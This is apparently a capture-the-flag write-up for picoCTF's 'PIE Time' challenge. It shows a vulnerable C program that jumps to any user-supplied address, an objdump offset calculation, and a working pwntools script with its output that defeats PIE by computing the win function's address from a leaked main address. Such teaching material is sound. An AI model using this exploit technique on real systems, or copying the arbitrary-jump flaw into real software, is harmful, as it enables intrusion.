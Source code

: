# PIE Time

`Author: Darkraicg492`

> Description - Can you try to get the flag? Beware we have PIE! Additional details will be available after launching your challenge instance.

In this challenge we have given two files vuln.c and a compiled binary with PIE-enabled

We can check this using `checksec` command -

```bash

$ checksec vuln
[*] '/mnt/d/work/picoctf/pie-time/vuln'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No

```

The `vuln` binary is compiled with PIE enabled.


## What is PIE?
PIE stands for Position Independent Executable. It's a compiler feature that makes a program’s code segment (the .text section) load at a random address in memory every time the program is run.

In other words, the base address of the binary changes each time, just like shared libraries under ASLR (Address Space Layout Randomization).

### Why PIE Matters in Exploitation
In binaries without PIE, the code segment is loaded at a fixed address. That means:

- Function addresses (like main() or win()) are always the same.
- You can hardcode return addresses or ROP gadgets.
- Exploitation is easier.

In PIE-enabled binaries:

- The code segment is loaded at a random base address.
- You can’t hardcode absolute addresses.
- You must first leak an address and calculate the offset.




Now given `vuln.c` code is -

```c

#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>

void segfault_handler() {
  printf("Segfault Occurred, incorrect address.\n");
  exit(0);
}

int win() {
  FILE *fptr;
  char c;

  printf("You won!\n");
  // Open file
  fptr = fopen("flag.txt", "r");
  if (fptr == NULL)
  {
      printf("Cannot open file.\n");
      exit(0);
  }

  // Read contents from file
  c = fgetc(fptr);
  while (c != EOF)
  {
      printf ("%c", c);
      c = fgetc(fptr);
  }

  printf("\n");
  fclose(fptr);
}

int main() {
  signal(SIGSEGV, segfault_handler);
  setvbuf(stdout, NULL, _IONBF, 0); // _IONBF = Unbuffered

  printf("Address of main: %p\n", &main);

  unsigned long val;
  printf("Enter the address to jump to, ex => 0x12345: ");
  scanf("%lx", &val);
  printf("Your input: %lx\n", val);

  void (*foo)(void) = (void (*)())val;
  foo();
}

```

The `main` function taking input address and will call the function at that memory address.

The `win` function here is printing the flag from a file `flag.txt`, which is most prolly on the remote server

To test our exploit locally, we’ll create a dummy `flag.txt` file with a fake flag:


```
## flag.txt

flag{REDACTED}

```

Now the exploit here is to pass address of `win` function in the input and hence the flag from `flag.txt` will get printed

Let's first calculate the offset for win function as PIE is enabled relative addressing of function remains same.

We'll use objdump to disassemble the binary and find the relative offsets of main and win.


```bash

$ objdump -d vuln | grep main
    11c1:       48 8d 3d 75 01 00 00    lea    0x175(%rip),%rdi        # 133d <main>
    11c8:       ff 15 12 2e 00 00       call   *0x2e12(%rip)        # 3fe0 <__libc_start_main@GLIBC_2.2.5>
000000000000133d <main>:
    1387:       48 8d 35 af ff ff ff    lea    -0x51(%rip),%rsi        # 133d <main>
    1400:       74 05                   je     1407 <main+0xca>

```

```bash

$ objdump -d vuln | grep win 
00000000000012a7 <win>:
    12db:       75 16                   jne    12f3 <win+0x4c>
    1302:       eb 1a                   jmp    131e <win+0x77>
    1322:       75 e0                   jne    1304 <win+0x5d>

```

Now main function at 0x0133d and win fucntion is at 0x012a7

So hence we'll calculate the offset as

```
MAIN_ADDR - WIN_ADDR = OFFSET
0x0133d - 0x012a7 = 0x96
```

Hence offset is 0x96.

Now what we'll do is use this calculate the actual memory address of win function with the giving actual memory address of main function.

The main address printed by the binary is its actual runtime address. Since PIE is enabled, this will change each time. But the offset between main and win stays the same, which allows us to compute the address of win

```
WIN_MEMORY_ADDR = MAIN_MEMORY - OFFSET
WIN_MEMORY_ADDR = MAIN_MEMORY - 0x96
```

Hence we'll get our win memory address which can be passed as input to get the flag.

We can automate this using a pwntools python script -

```python


from pwn import *

# Load the ELF binary
binary = ELF('./vuln')  # replace with your binary name


HOST = "..."
PORT = "..."
# p = remote(HOST, PORT)  # replace with your remote server address and port
p = process("./vuln")

p.recvuntil(b"main: ")
main_memory = int(p.recvline().strip(), 16)
print(f"main: {hex(main_memory)}")

main_addr = binary.symbols["main"]
print(f"[*] Address of main: {hex(main_addr)}")

win_addr = binary.symbols["win"]
print(f"[*] Address of win: {hex(win_addr)}")

offset = main_addr - win_addr

print(f"[*] Offset: {hex(offset)}")

print(f"[*] Performing {hex(main_memory)} - {hex(offset)}")
win_memory = main_memory - offset
print(f"[*] got win memory: {hex(win_memory)}")

p.recvuntil(b"Enter the address to jump to, ex => 0x12345: ")
p.sendline(hex(win_memory).encode())
p.interactive()

```

Running this will output -

```bash

$ python3 sol.py
[*] '/mnt/d/work/picoctf/pie-time/vuln'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
[+] Starting local process './vuln': pid 3810
main: 0x5600562ae33d
[*] Address of main: 0x133d
[*] Address of win: 0x12a7
[*] Offset: 0x96
[*] Performing 0x5600562ae33d - 0x96
[*] got win memory: 0x5600562ae2a7
[*] Switching to interactive mode
Your input: 5600562ae2a7
You won!
flag{REDACTED}
[*] Process './vuln' stopped with exit code 0 (pid 3810)
[*] Got EOF while reading in interactive
```

Hurray!! We got our flag by exploiting local executable, you can do similar to get the real flag by replaing `HOST` and `PORT` of remote server that you started.